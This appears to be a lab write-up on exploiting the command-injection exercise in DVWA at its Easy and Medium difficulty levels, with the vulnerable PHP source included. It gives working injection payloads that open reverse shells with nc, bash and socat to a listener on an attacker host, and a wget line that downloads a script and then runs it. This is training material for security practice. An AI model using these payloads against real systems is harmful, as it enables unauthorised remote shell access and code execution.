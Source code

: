 # Command Execution

## Easy

### Exploit
This is a classic example of bash code injection. First examine the expected use case, (e.g. `192.168.56.1`) and obtain the following output.

```
PING 192.168.56.1 (192.168.56.1) 56(84) bytes of data.
64 bytes from 192.168.56.1: icmp_seq=1 ttl=64 time=0.152 ms
64 bytes from 192.168.56.1: icmp_seq=2 ttl=64 time=0.405 ms
64 bytes from 192.168.56.1: icmp_seq=3 ttl=64 time=0.585 ms

--- 192.168.56.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.152/0.380/0.585/0.179 ms
```

From this output, it's pretty clear the underlying PHP interpreter is probably `exec`ing something like `ping -c 3 ...`.

So, by simply following the `ping` with another command such delimited with either `;` or `&&`, we can get a shell. (e.g. `192.168.56.1;mkifio /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 192.168.56.1 4444 > /tmp/f;rm /tmp/f` for a reverse shell, assuming we have a listener on the attacking machine at 192.168.56.1:4444) Note that we could have used just about any reverse shell - nc, bash, php, python, etc - provided it is supported by the OS.

### Code Analysis
We can see by looking at the below form HTML and the request in the network tab that we're sending two `application/x-www-form-urlencoded` key-value pairs, one of which is the IP address to ping.
```
<form name="ping" action="#" method="post">
	<input type="text" name="ip" size="30">
	<input type="submit" value="submit" name="submit">
</form>
```

And the corresponding php is pretty much exactly what we'd expect: raw `shell_exec`ing of the unsanitized input, which allows us to inject any `;` or `&&`-delimited `bash` command as illustrated above. Note here is the outer `if` condition; if we were to send this request using an external HTTP client, (e.g. curl), we'd still need to include the `submit` parameter in addition to the `ip` parameter.

```php
if( isset( $_POST[ 'submit' ] ) ) { 

    $target = $_REQUEST[ 'ip' ]; 

    // Determine OS and execute the ping command. 
    if (stristr(php_uname('s'), 'Windows NT')) {  
     
        $cmd = shell_exec( 'ping  ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } else {  
     
        $cmd = shell_exec( 'ping  -c 3 ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } 
     
} 
```
## Medium
If we try this same exploitation method after setting the level to medium, we receive no output. A reasonable assumption - confirmed by examining the source code - is that the underlying PHP script is escaping the delimiter characters `;` and `&&`. More specifically, `str_replace` is used to replace these delmiters with the empty string. Because we only see stdout, we don't see the errors that would arise when the PHP interpreters attempt to run the command after it has been stripped of the aforementioned delimiters.

### Code Analysis
```php
if( isset( $_POST[ 'submit'] ) ) { 

    $target = $_REQUEST[ 'ip' ]; 

    // Remove any of the charactars in the array (blacklist). 
    $substitutions = array( 
        '&&' => '', 
        ';' => '', 
    ); 

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 
     
    // Determine OS and execute the ping command. 
    if (stristr(php_uname('s'), 'Windows NT')) {  
     
        $cmd = shell_exec( 'ping  ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } else {  
     
        $cmd = shell_exec( 'ping  -c 3 ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } 
} 
```

### Exploit
So, how do we overcome this? By using backticks or `$()`, we can run a command BEFORE the ping is executed. We are still somewhat limited as we can't include the `;` or `&&` delimiters, but we do have a few options. Here are a few examples of very simple reverse shells which would work (assuming we have a listener on the attacking machine 192.168.56.1:4444).

1. `$(nc 192.168.56 4444 -e /bin/bash)`
2. `$(socat TCP4:192.168.56.1:4444 exec:"/bin/bash")`

Note that - using the first example - now the PHP interpreter sees `shell_exec('ping -c 3 $(nc 192.168.56 4444 -e /bin/bash)');`. Obviously, `ping` would not know what to make of the output of this subcommand, however the subcommand won't return until we close the reverse shell so it's not a problem.

I'm running DVWA on Metasploitable 2, hence the presence of `nc` and `socat`. In the real world it's unlikely that these tools would be installed; in this case, simply send 2 commands. In this case the ping will error after the subcommand returns, however it won't matter because the subcommand will have already completed its task (e.g. downloaded or executed the file).

1. Download a script (bash,php,python) or executable (exe,elf,etc)
   * e.g. `$(wget 192.168.56.1:80/reverse-shell-scripts/f -P /tmp/)`
2. Execute the script
   * e.g. `$(/tmp/f)`
